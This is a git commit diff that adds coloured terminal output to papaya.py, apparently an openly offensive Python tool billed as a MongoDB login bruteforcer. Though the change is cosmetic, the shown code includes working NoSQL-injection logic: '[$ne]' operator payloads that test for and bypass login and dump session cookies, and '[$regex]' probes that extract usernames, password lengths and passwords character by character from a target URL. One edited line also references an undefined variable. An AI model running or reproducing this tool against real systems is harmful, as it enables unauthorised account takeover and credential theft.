

Add coloured output

diff --git a/papaya.py b/papaya.py
@@ -16,18 +16,18 @@ success_string = "Welcome back"
 def print_options():
     clear_terminal()
     print(
-"""[1] Set target username (Current: '{}')
-[2] Set username POST parameter (Current: '{}')
-[3] Set password POST parameter (Current: '{}')
-[4] Set unique success-identifier (Current: '{}')
+f"""\033[94m[1]\033[0m Set target username (Current: '{username}')
+\033[94m[2]\033[0m Set username POST parameter (Current: '{user_param}')
+\033[94m[3]\033[0m Set password POST parameter (Current: '{password_param}')
+\033[94m[4]\033[0m Set unique success-identifier (Current: '{success_string}')
 -------------------------------
-[5] Test for vulnerability  .'|'.
-[6] Brute force username   /.'|\\ \\
-[7] Brute force password   | /|'.|
-[8] Bypass login            \ |\/
+\033[92m[5]\033[0m Test for vulnerability  .'|'.
+\033[92m[6]\033[0m Brute force username   /.'|\\ \\
+\033[92m[7]\033[0m Brute force password   | /|'.|
+\033[92m[8]\033[0m Bypass login            \ |\/
 ---------------------        \|/
-[0] Exit Papaya
-?""".format(username, user_param, password_param, success_string))
+\033[94m[0]\033[0m Exit Papaya
+?""")
 
 def main():
     global success_string, user_param, password_param, page, username
@@ -36,16 +36,16 @@ def main():
         choice = input()
 
         if choice == "1":
-            print("[?] Enter username")
+            log("Enter username", 3)
             username = input()
         elif choice == "2":
-            print("[?] Set username POST parameter")
+            log("Set username POST parameter", 3)
             user_param = input()
         elif choice == "3":
-            print("[?] Set password POST parameter")
+            log("Set password POST parameter", 3)
             password_param = input()
         elif choice == "4":
-            print("[?] Set unique string in positive html response")
+            log("Set unique string in positive html response", 3)
             success_string = input()
         elif choice == "5":
             choice_test_vulnerability()
@@ -56,7 +56,7 @@ def main():
         elif choice == "8":
             choice_authenticate()
         elif choice == "0":
-            print("[!] Exiting...")
+            log("Exiting...", 3)
             quit()
             return
 
@@ -66,65 +66,73 @@ def main():
 
 def choice_test_vulnerability():
     clear_terminal()
-    print("[ ] Testing for vulnerability")
-    print("[ ] Target: '{}'".format(url))
+    log("Testing for vulnerability")
+    log(f"Target: '{url}'", 3)
     test_vulnerability()
-    wait()
+    await_input()
 
 def choice_username():
     global username
     clear_terminal()
-    print("[ ] Getting username...")
-    print("[ ] Target: '{}'".format(url))
+    log("Getting username...")
+    log(f"Target: '{url}'", 3)
     username = get_username()
     if not username:
         username = 'admin'
-    wait()
+    await_input()
 
 def choice_password():
     clear_terminal()
     if username == 'admin':
-        print("[ ] Default user 'admin' used. Maybe get a username first")
-    print("[ ] Testing password length for user: '{}'".format(username))
-    print("[ ] Target: '{}'".format(url))
+        log("Default user 'admin' used. Maybe get a username first", 3)
+    log(f"Testing password length for user: '{user}'")
+    log(f"Target: '{url}'", 3)
     pw_length = get_password_length(username)
     if pw_length:
-        print("[ ] Testing password for '{}' with length {} ".format(username, pw_length))
+        log(f"Getting password for '{username}' with length {pw_length} ")
         get_password(username, pw_length)
-    wait()
+    await_input()
 
 def choice_authenticate():
     clear_terminal()
-    print("[ ] Bypassing login")
-    print("[ ] Target: '{}'".format(url))
+    log("Bypassing login")
+    log(f"Target: '{url}'", 3)
     authenticate()
-    wait()
+    await_input()
 
 def clear_terminal():
     os.system('cls' if os.name == 'nt' else 'clear')
     print("""------------------------------
-Papaya                       /\\
-MongoDB Login Bruteforcer   (  )
+\033[1mPapaya\033[0m                       /\\
+MongoDB Login Bruteforce    (  )
 ---------------------------  `´""")
 
-def wait():
-    print("\n[!] Press Enter to get back to main menu")
+def await_input():
+    log("Press Enter to get back to main menu", 3)
     input()
 
+def log(string, type=1):
+    if type == 1: # positive
+        print(f'\033[92m[+]\033[0m {string}')
+    elif type == 2: # warning
+        print(f'\033[93m[-]\033[0m {string}')
+    elif type == 3: # indication
+        print(f'\033[94m[!]\033[0m {string}')
+
 def not_vulnerable(coming_from_check=False):
-    print("\n[-] Not vulnerable. Check parameters")
+    log("Not vulnerable. Check parameters", 2)
     if not coming_from_check:
-        print("[?] Did you forget to set the success-identifier?")
+        log("Did you forget to set the success-identifier?", 3)
 
 def send_sessionless_post(params):
     try:
         return requests.post(url, data=params)
     except KeyboardInterrupt:
-        wait()
+        await_input()
         main()
     except:
-        print("[!] Could not connect to target")
-        wait()
+        log("Could not connect to target", 2)
+        await_input()
         main()
 
 def is_successfull(success_string, response):
@@ -139,12 +147,12 @@ def test_vulnerability():
         response_bogus = session.post(url, {
             user_param :'xXbOgUsXx',
             password_param :'xXbOgUsXx'
-		})
+        })
 
         response_injection = session.post(url, {
-		    user_param + "[$ne]":'xXbOgUsXx',
-		    password_param + "[$ne]":'xXbOgUsXx'
-		})
+            user_param + "[$ne]":'xXbOgUsXx',
+            password_param + "[$ne]":'xXbOgUsXx'
+        })
 
         response_bogus = BeautifulSoup(response_bogus.text, 'lxml')
         response_injection = BeautifulSoup(response_injection.text, 'lxml')
@@ -152,22 +160,22 @@ def test_vulnerability():
         if response_bogus.body == response_injection.body:
             not_vulnerable(True)
         else:
-            print("\n[ ] Successful login response:\n{}".format(response_injection.body))
-            print("\n[ ] Failed login response:\n{}".format(response_bogus.body))
-            print("\n[ ] Successful login response differs from failed login response")
-            print("[+] Application appears to be vulnerable!")
+            log(f"Got possible successful login response:\n{response_injection.body}\n", 3)
+            log(f"Got possible failed login response:\n{response_bogus.body}\n", 3)
+            log("Responses differ.")
+            log("Application appears to be vulnerable!")
 
             if len(session.cookies.get_dict()):
-                print("[+] Response returned cookies. Maybe we found a session cookie?")
+                log("Response returned cookies. Maybe we found a session cookie?")
                 print(session.cookies.get_dict())
 
-            print("\n[ ] Inspect the above responses to find a unique string to identify a successful login and adjust the options accordingly")
+            log("Inspect the above responses to find a unique string to identify a successful login and adjust the options accordingly", 3)
     except KeyboardInterrupt:
-        wait()
+        await_input()
         main()
     except:
-        print("[!] Could not connect to target")
-        wait()
+        log("Could not connect to target", 2)
+        await_input()
         main()
 
 def authenticate():
@@ -185,18 +193,18 @@ def authenticate():
             return
 
         if is_successfull(success_string, response):
-            print("\n[+] Authenticated!")
-            print("[+] Session cookies:")
+            log("Authenticated!")
+            log("Session cookies:")
             print(session.cookies.get_dict())
             return
         else:
             not_vulnerable()
     except KeyboardInterrupt:
-        wait()
+        await_input()
         main()
     except:
-        print("[!] Could not connect to target")
-        wait()
+        log("Could not connect to target", 2)
+        await_input()
         main()
 
 def get_username():
@@ -205,10 +213,6 @@ def get_username():
 
     while True:
         for c in alphabet:
-            #if it appears to be the admin user
-            #if not len(username) and c == "a":
-            #    continue
-
             params = {
                 user_param + "[$regex]":"^"+username+c+".*",
                 password_param + "[$ne]":'xXbOgUsXx'
@@ -221,12 +225,12 @@ def get_username():
                 return
             if is_successfull(success_string, response):
                 username = username + c
-                print("[+] Next character found! User='{}'".format(username))
+                log(f"Next character found! User='{username}'")
                 break
 
             if c == alphabet[-1]:
                 if len(username):
-                    print("[+] User found: '{}'".format(username))
+                    log(f"User found: '{username}'")
                     return username
                 else:
                     not_vulnerable()
@@ -255,18 +259,18 @@ def get_password(username, pw_length):
 
             if is_successfull(success_string, response):
                 if count == 0:
-                    print("\n[+] Password found: "+password)
+                    log(f"Password found: {password}")
                     return password
                 password = password + c
-                print("[+] Next character found! Password='{}'...".format(password))
-                print("[ ] {} Characters left...".format(count))
+                log(f"Next character found! Password='{password}'...")
+                log(f"{count} Characters left...", 3)
                 count -= 1
                 break
 
 def get_password_length(username):
     pw_length = 50
     while True:
-        params = { 
+        params = {
             'username':username,
             'password[$regex]':".{"+str(pw_length)+"}"
         }
@@ -274,7 +278,7 @@ def get_password_length(username):
         response = send_sessionless_post(params)
 
         if is_successfull(success_string, response):
-            print("[+] Found password length: {}".format(pw_length))
+            log(f"Found password length: {pw_length}")
             return pw_length
 
         if pw_length == 0:
@@ -287,10 +291,10 @@ if __name__ == "__main__":
     global url
 
     if len(sys.argv) < 2:
-        print("\nTarget URL not supplied.\nUsage: python3 papapy.py http[s]://TARGET")
+        print("\nTarget URL not supplied.\nUsage: python3 papaya.py http[s]://TARGET")
         quit()
     elif (sys.argv[1][0:7] != "http://") and (sys.argv[1][0:8] != "https://"):
-        print("\nTarget URL in wrong format.\nUsage: python3 papapy.py http[s]://TARGET")
+        print("\nTarget URL in wrong format.\nUsage: python3 papaya.py http[s]://TARGET")
         quit()
     else:
         url = sys.argv[1]
